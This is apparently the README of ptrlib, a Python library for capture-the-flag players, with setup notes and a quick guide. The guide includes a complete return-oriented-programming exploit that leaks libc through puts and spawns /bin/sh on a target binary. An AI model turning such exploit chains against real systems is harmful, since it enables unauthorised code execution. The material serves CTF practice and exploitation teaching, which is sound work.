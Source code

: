 ptrlib
====

![Python application](https://github.com/ptr-yudai/ptrlib/workflows/Python%20application/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Requirements
Supports: Python 3.x

Library Dependency:
- pycryptodome
- pywin32 (If you want to handle Windows process)

External Program:
- If you want to use `SSH` function, the following programs are required:
  - ssh (Default path: `/usr/bin/ssh`)
  - expect (Default path: `/usr/bin/expect`)

## Usage
Basic examples are available at [/examples](https://bitbucket.org/ptr-yudai/ptrlib/src/master/examples/).

## Quick Document
There are many functions in ptrlib but let's see how to use it for pwn.
You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```
If you have the target binary or libc, it's recommended to load the binary first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
And you can use useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is the pwn example of ROP stager.
```python
plt_gets = elf.plt("gets")
stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  rop_pop_rdi,
  elf.got("puts"),
  elf.plt("puts"),
  rop_pop_rdi,
  stage2,
  elf.plt("gets"),
  rop_pop_rbp,
  stage2,
  rop_leave_ret
], map=p64)
sock.sendlineafter("Data: ", payload)

libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
libc.set_base(libc_base)
payload = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(next(libc.find("/bin/sh")))
payload += p64(libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
- [keymoon](https://github.com/key-moon)
  - Added algorithm package
